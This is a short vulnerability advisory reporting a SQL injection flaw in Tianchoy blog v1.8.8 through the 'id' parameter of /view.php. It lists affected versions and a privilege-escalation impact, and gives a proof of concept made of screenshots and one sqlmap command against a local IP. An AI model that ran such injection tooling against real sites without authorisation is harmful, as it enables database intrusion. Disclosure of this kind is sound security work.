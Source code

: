  [description]
 
Tianchoy blog v1.8.8 was discovered to contain a SQL Injection vulnerability via the URI /view.php with parameter name 'id'.

 ------------------------------------------

 [Vulnerability Type]
 
 SQL Injection

 ------------------------------------------
 [Vendor of Product]
 
 Tianchoy blog,https://github.com/tianchoy/blog

 ------------------------------------------

 [Affected Product Code Base]
 
 <=v1.8.8

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
 <img width="1118" alt="图片" src="https://github.com/user-attachments/assets/a2bb1117-f8ab-4f5d-a834-db2ce0251571">
 <img width="570" alt="图片" src="https://github.com/user-attachments/assets/030d1a28-2801-4160-89fb-70a82fe56a1d">



sqlmap:
```
sqlmap -u "http://192.168.0.183:11180/view.php?id=1"  --batch --banner

```
